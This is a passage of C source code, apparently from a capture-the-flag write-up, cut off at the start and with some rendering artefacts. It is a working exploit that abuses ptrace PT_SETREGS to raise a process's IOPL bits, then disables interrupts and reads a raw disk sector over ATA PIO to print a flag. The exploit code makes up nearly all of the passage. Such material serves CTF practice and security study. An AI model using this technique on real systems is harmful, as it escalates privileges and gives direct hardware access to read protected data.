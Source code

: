 ```
        regs.eflags |= 0x3000;

        if (ptrace(PT_SETREGS, g_pid, &amp;regs, 0) == -1) `{`
            perror("setregs");
            exit(-1);
        `}`

        if (ptrace(PT_DETACH, g_pid, 0, 0) == -1) `{`
            perror("detach");
            exit(-1);
        `}`

        exit(0);
    `}`

    sleep(2);
    puts("Testing if IOPL has been raised...");

    int flags = 0;
    asm volatile("pushf\npop %0\n" : "=r" (flags));
    if ((flags &amp; 0x3000) == 0x3000) `{`
        puts("Successfully raised IOPL!");
    `}` else `{`
        puts("Failed to raise IOPL!");
        exit(-1);
    `}`
`}`

int main(int, char**) `{`
    raiseIOPL();
    char data[512];
    memset(data, 0, 512);
    asm volatile("cli");
    read_sectors_ATA_PIO((uint32_t) data, 0, 1);
    asm volatile("sti");
    printf("Flag: %s\n", (char*) data);
    puts("Done");
    return 0;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0197899cfc6b281770.png)
